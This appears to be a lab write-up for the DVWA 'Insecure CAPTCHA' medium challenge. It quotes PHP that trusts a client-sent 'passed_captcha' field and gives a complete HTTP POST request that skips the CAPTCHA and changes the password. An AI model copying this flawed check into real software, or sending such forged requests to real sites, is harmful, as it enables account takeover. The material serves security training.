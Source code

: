#+TITLE: DVWA - Insecure CAPTCHA Medium
#+AUTHOR: Leonardo Tamiano

* Description
  Same setup as before, but now the php code server side that does the
  verification is different. In particular now the verification of the
  CAPTCHA is done by checking the value of a specific ~POST~ parameter

  #+begin_src php
if( isset( $_POST[ 'Change' ] ) && ( $_POST[ 'step' ] == '2' ) ) {
    // Hide the CAPTCHA form
    $hide_form = true;

    // Get input
    $pass_new  = $_POST[ 'password_new' ];
    $pass_conf = $_POST[ 'password_conf' ];

    // Check to see if they did stage 1
    if( !$_POST[ 'passed_captcha' ] ) {
        $html     .= "<pre><br />You have not passed the CAPTCHA.</pre>";
        $hide_form = false;
        return;
    }
  #+end_src

  This is sent by the php server when the CAPTCHA check is performed

  #+begin_src php
  // Check CAPTCHA from 3rd party
    $resp = recaptcha_check_answer(
        $_DVWA[ 'recaptcha_private_key' ],
        $_POST['g-recaptcha-response']
    );

    // Did the CAPTCHA fail?
    if( !$resp ) {
        // What happens when the CAPTCHA was entered incorrectly
        $html     .= "<pre><br />The CAPTCHA was incorrect. Please try again.</pre>";
        $hide_form = false;
        return;
    }
    else {
        // CAPTCHA was correct. Do both new passwords match?
        if( $pass_new == $pass_conf ) {
            // Show next stage for the user
            echo "
                <pre><br />You passed the CAPTCHA! Click the button to confirm your changes.<br /></pre>
                <form action=\"#\" method=\"POST\">
                    <input type=\"hidden\" name=\"step\" value=\"2\" />
                    <input type=\"hidden\" name=\"password_new\" value=\"{$pass_new}\" />
                    <input type=\"hidden\" name=\"password_conf\" value=\"{$pass_conf}\" />
                    <input type=\"hidden\" name=\"passed_captcha\" value=\"true\" />
                    <input type=\"submit\" name=\"Change\" value=\"Change\" />
                </form>";
        }
        else {
            // Both new passwords do not match.
            $html     .= "<pre>Both passwords must match.</pre>";
            $hide_form = false;
        }
    }
  #+end_src
  
* Solution
  The following HTTP request will bypass the CAPTCHA

  #+begin_example
POST /vulnerabilities/captcha/ HTTP/1.1
Host: evil
Content-Length: 83
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://evil
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://evil/vulnerabilities/captcha/
Accept-Encoding: gzip, deflate, br
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=j7f5mt685vjonmnvrt6mij8t50; security=medium
Connection: close

step=2&password_new=newpass&password_conf=newpass&passed_captcha=True&Change=Change
  #+end_example
  
